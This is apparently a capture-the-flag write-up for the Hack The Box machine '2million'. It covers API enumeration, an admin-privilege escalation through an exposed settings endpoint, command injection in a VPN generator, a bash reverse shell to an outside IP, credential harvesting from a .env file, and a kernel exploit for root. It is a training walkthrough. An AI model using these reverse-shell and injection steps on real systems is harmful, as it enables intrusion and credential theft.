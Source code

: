 # Network
There are two `TCP` ports are open
	- 22 : ssh is running and not vulnerable to Rce
 
	- 80 : on 80 `2million.htb` is hosted which is old version of HTB
# Web
There is old version of htb is running on port 80
Nothing special found on home page except `JOIN NOW` page which is redirecting us to `/invite` page
	
 ![Screenshot from 2023-09-22 10-25-05](https://github.com/iammR0OT/HTB/assets/74102381/497c590a-68f8-4eba-bb49-02497ee743ef)

On invite page it is asking about some kind of `invite code` which we didn't have any
	
 ![Screenshot from 2023-09-22 10-26-22](https://github.com/iammR0OT/HTB/assets/74102381/1bf0dea8-f336-40a0-8c27-88629a9a8964)

Lets check the source code of it and the network tab that which files is it requesting while loading the page
In source code we found interesting file path called `/js/inviteapi.js`
	
 ![Screenshot from 2023-09-22 10-29-47](https://github.com/iammR0OT/HTB/assets/74102381/1082a6cb-8141-4135-b8e9-21c538f92969)

There are some functions present in this file
	
 ![Screenshot from 2023-09-22 10-31-38](https://github.com/iammR0OT/HTB/assets/74102381/f8d2a165-6d72-4d5c-930b-00b09b422c93)

Lets beautify the JS code using `jsbeautifier`
We found two function in that code 
	one is for **verifyInvideCode** which is probably taking the invite code and checking it on server side if it is valid or not
	and the second one is **makeInviteCode** which is requesting `/api/v1/invite/how/to/generate` api and creating a invitation code  
	
 ![Screenshot from 2023-09-22 10-32-57](https://github.com/iammR0OT/HTB/assets/74102381/9780e2c6-43cf-4341-ba0f-2c7de00cca98)

Lets hit this api and check if it allow us to generate code without any authentication
We will use `curl` and `jq` 
	Curl for making POST request and jq for josn data reading it is basically json parser
	We will use command `curl -X POST "http://2million.htb/api/v1/invite/how/to/generate" | jq .`
	We got some Encrypted data and the encryption type which is `ROT13`
	
 ![Screenshot from 2023-09-22 10-42-22](https://github.com/iammR0OT/HTB/assets/74102381/6bdca938-6798-435c-8cfd-c4742a965339)

After decryption we get a path saying that to it generate a key we have to request to `/api/v1/invite/generate` api
	
 ![Screenshot from 2023-09-22 10-44-13](https://github.com/iammR0OT/HTB/assets/74102381/cb2fc858-98b3-438f-9716-8d0476d348f0)

After requesting we got a session cookie base64 encoded, after decoding that we found a valid invite code `396E7-KEQJT-2896J-C7UC7`
	
 ![Screenshot from 2023-09-22 10-47-43](https://github.com/iammR0OT/HTB/assets/74102381/55fa964d-8210-4732-83fc-e170417ea29e)

Now we have Invite code lets insert code and found what's next
We found Registration page, Lets register as a admin user
	
 ![Screenshot from 2023-09-22 10-50-32](https://github.com/iammR0OT/HTB/assets/74102381/5561b551-48a4-4832-8642-0330752aa4ae)

Now we login as a admin user, let see what things we can do here
Wo here are 3 pages that we can look at
	/changelog
	/rule
	/access
	
 ![Screenshot from 2023-09-22 11-13-58](https://github.com/iammR0OT/HTB/assets/74102381/b73b0f2d-c2fb-4bb4-a552-33e1598f261b)

In access page there is vpn regenerate functionality which is requesting `/api/v1/user/vpn/regenerate` to regenerate vpn
Lets look at this in burpsuite
When we test the api and move back to the directory one by one we discover some endpoints in `/api/v1` 
	
 ![Screenshot from 2023-09-22 11-19-00](https://github.com/iammR0OT/HTB/assets/74102381/f074a18a-0131-4592-9048-94ed48d0b868)
	
 ![Screenshot from 2023-09-22 12-00-35 1](https://github.com/iammR0OT/HTB/assets/74102381/0b8cbf2c-fb9c-4b54-a43b-4b571c37231f)

There are 3 interesting endpoints
	api/v1/admin/settings/update
	api/v1/admin/auth
	api/v1/admin/vpn/generate
Lets request to `api/v1/admin/settings/update`
We update the our simple user to admin using `/api/v1/admin/settings/update` endpoint
	I face some errors like
		**Invalid content type**: i resolve this by changing the **Content-Type:** header to **application/json** which means the the content will be in the form of json
		**Missing parameter email**: i resolve this by adding {"email":"admin@gmail.com"} which is email account i used to login as a user on machine
		**Missing parameter is_admin**: I resolve this by adding {"is_admin":1} which means it is an admin account
	
 ![Screenshot from 2023-09-22 11-38-32](https://github.com/iammR0OT/HTB/assets/74102381/77119d9c-e915-4479-b13f-7f156039637c)

	Using curl
	
 ![Screenshot from 2023-09-22 12-00-35 1](https://github.com/iammR0OT/HTB/assets/74102381/71dea82b-1454-48d7-9390-ca3b7327a0e6)

Now successfully our user becomes an admin on the machine 
Lets look at the `/api/v1/admin/vpn/generate`, which is generating vpn for admin user 
	While requesting that endpoint i face an error that the username parameter is missing. so i resolve this by adding` {"username":"admin"}`
And its generating vpn maybe there will be a bash command is running in the background 
Lets try to command injection in this
I found a successful command injection in the vpn generator field
	
 ![Screenshot from 2023-09-22 11-58-09](https://github.com/iammR0OT/HTB/assets/74102381/c70407e0-7fc2-40a9-9e90-4e3fce62b036)

# User found
Now we found command injection in password generator field lets try simple reverse shell in it  
	`bash -c 'bash -i >& /dev/tcp/10.10.14.56/9001 0>&1'`
	We got a shell
		
  ![Screenshot from 2023-09-22 12-04-22](https://github.com/iammR0OT/HTB/assets/74102381/2c18f914-dce5-4443-a82e-8664acfa4f8b)

	Wet make a shell stable using tty shell
		`python3 -c 'import pty;pty.spawn("/bin/bash")'`
		Using **CTRL+Z** making it background process and the using `stty raw -echo;fg` to make it foreground now whenever we need shell back we simply write this. this will get our shell back
		
  ![Screenshot from 2023-09-22 12-12-36](https://github.com/iammR0OT/HTB/assets/74102381/99390556-2e3e-49d0-b334-55dc29095ac4)

		Then `**export TERM=xterm**`
Now we login as WWW-data but we didn't have user shell lets enumerate the machine
After some enumeration i found file called database.php lets look into it if we found any database credentials in it
We found that mysql is running from that file
In **.env** file i found database credentials

![Screenshot from 2023-09-22 12-19-09 1](https://github.com/iammR0OT/HTB/assets/74102381/753114ae-4f03-4cb7-83d4-883da6684e78)

	DB_USERNAME=admin
	DB_PASSWORD=SuperDuperPass123
Now we have credentials lets try to login using ssh if that incorrect we will enumerate mysql database and we successfully login into **admin user** account
	
 ![Screenshot from 2023-09-22 12-21-44](https://github.com/iammR0OT/HTB/assets/74102381/5eb9d856-0114-4906-8d7e-9579b464f271)

Lets capture the user flag
	user = **6d7227a1f473d6204ea181aa99bc41e2**
# Privesc
Lets move to the privesc part
Lets enumerate the whole file system and find out what files are accessible by user admin 
	`find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'` to check files except run folder, proc folder and sys folder
I found that there is a mail file accessible by admin user
	
 ![Screenshot from 2023-09-22 12-45-09](https://github.com/iammR0OT/HTB/assets/74102381/4586d010-f440-4a07-91d2-d2e3190b4b84)

The email is telling to admin that the kernel is outdated and vulnerable to **OverlayFS / FUSE**

![Screenshot from 2023-09-22 12-46-49](https://github.com/iammR0OT/HTB/assets/74102381/4928166f-f540-4fc8-bb5e-b477c06d1af0)

Lets explore it
It is kernel level exploit we just need to run cve files and it will give us root shell
	[refrence](https://github.com/xkaneiki/CVE-2023-0386/tree/main)
Root = **ef3883404d27fcad5ab69a9138eeeb64**

# Happy Hacking ❤
